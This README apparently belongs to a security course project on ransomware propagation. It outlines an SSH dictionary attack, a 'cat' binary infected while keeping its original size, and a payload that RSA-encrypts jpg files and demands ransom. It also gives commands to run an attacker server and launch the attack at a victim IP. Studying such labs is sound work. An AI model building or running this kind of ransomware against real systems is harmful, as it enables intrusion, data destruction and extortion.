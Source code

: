 # Ransomware-Propagation-and-Payload

### Crack SSH password
- cracking the victim’s password by launching a dictionary attack

### Compression Virus with Ransomware Propagation
- infected ‘cat’ shall
- keep the same size as the original ‘cat’

### Ransomware Payload
- encrypting all picture files in jpg in /home/csc2023/Pictures using RSA
- popping up a window showing a message requesting ransom

### Run
compile
```
make
```
set up the attacker server
```
./attacker_server <Attacker port>
```
crack the victim’s password and infect ‘cat’ in /home/csc2023/
```
./crack_attack <Victim IP> <Attacker IP> <Attacker port>
```
